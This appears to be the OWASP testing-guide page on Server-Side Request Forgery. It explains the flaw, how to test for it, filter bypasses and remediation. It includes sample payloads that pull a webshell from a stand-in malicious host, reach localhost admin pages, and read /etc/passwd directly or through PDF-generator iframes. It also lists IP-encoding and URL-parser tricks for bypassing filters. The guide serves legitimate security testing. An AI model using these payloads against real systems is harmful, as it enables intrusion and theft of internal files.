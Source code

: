 # Testing for Server-Side Request Forgery

## Summary

Often web applications may have to interact with internal or external resources in order to provide certain functionality, with the expectation that only the service providing that functionality will be used, but often such functionality processes user data and if not handled properly it can open the door for injection attacks that are called Server-side Request Forgery (SSRF). A successful SSRF attack can grant the attacker access to restricted actions, internal services, or internal files within the application or the organization. In some cases it can even lead to Remote Code Execution (RCE).

## Test Objectives

- Identify injection points (External resource calls, API calls)
- Test if the SSRF is exploitable
- Asses the severity of the vulnerability

## How to Test

When testing for SSRF we are trying to trick the server into loading/writing unintended content. The most common test is for local and remote file inclusion, but there is another facet to SSRF, a trust relationship that often arises with server-side request forgery where the application server is able to interact with other back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses or are restricted to certain hosts. Since they are protected by the network topology, they often lack more sophisticated controls. However internal systems often contain sensitive data or functionality.

If we have the following request:

`https://example.com/page?page=about.php`,

we can try the following payloads:

Return the content of an external resource like a webshell.

`https://example.com/page?page=https://malicioussite.com/shell.php`

Use the localhost/loopback interface to access content restricted to the host only. This mechanism implies that if you have access to the host then you have enough privileges to directly access the `admin` page.

These kind of trust relationships, where requests originating from the local machine are handled differently than ordinary requests, are often what makes SSRF into a critical vulnerability.

`https://example.com/page?page=http://localhost/admin`

or

`https://example.com/page?page=http://127.0.0.1/admin`

Fetch a local file

`https://example.com/page?page=file:///etc/passwd`

All of the payloads above can apply to any type of HTTP request, and could also be injected into header and cookie values as well.
One important note on SSRF with POST requests is that the SSRF may also manifest in a Blind manner, because the application might not return anything immediately, that data might be used in other functionality such as PDF reports, invoice/order handling, etc. which are visible to employees/staff but not necessarily the end user or tester.

You can find more on Blind SSRF [here](https://portswigger.net/web-security/ssrf/blind), or in the [References section](#references)

### PDF Generators

There are some cases where server converts uploaded file to a pdf.Try injecting `<iframe>`, `<img>`, `<base>` or `<script>` elements or CSS url() functions pointing to internal services.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height=”400">
```

### Common Filter Bypass

Some applications block references to `localhost` and `127.0.0.1`, this can be circumvented by:

- Using alternative IP representation such as such as 2130706433, 017700000001, or 127.1 which evaluate to 127.0.0.1
- String obfuscation
- Registering your own domain that resolves to 127.0.0.1

Sometimes the application allows input that matches a certain expression, like a domain. That can be circumvented if the URL schema parser is not properly implemented.

- Using the `@` character: `https://expected-domain@attacker-domain`
- URL fragmentation with the `#` character: `https://attacker-domain#expected-domain`
- URL encoding
- Fuzzing
- Combinations of all of the above

You can find more payloads [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

## Remediation

Some of the main mitigation techniques include implementing IP filtering and URL filtering. You can find out more on the
[OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)

## Tools

- Burpsuite
- ZAP

## References

- [SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
- [OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [SSRF](https://portswigger.net/web-security/ssrf)
- [Blind SSRF](https://portswigger.net/web-security/ssrf/blind)
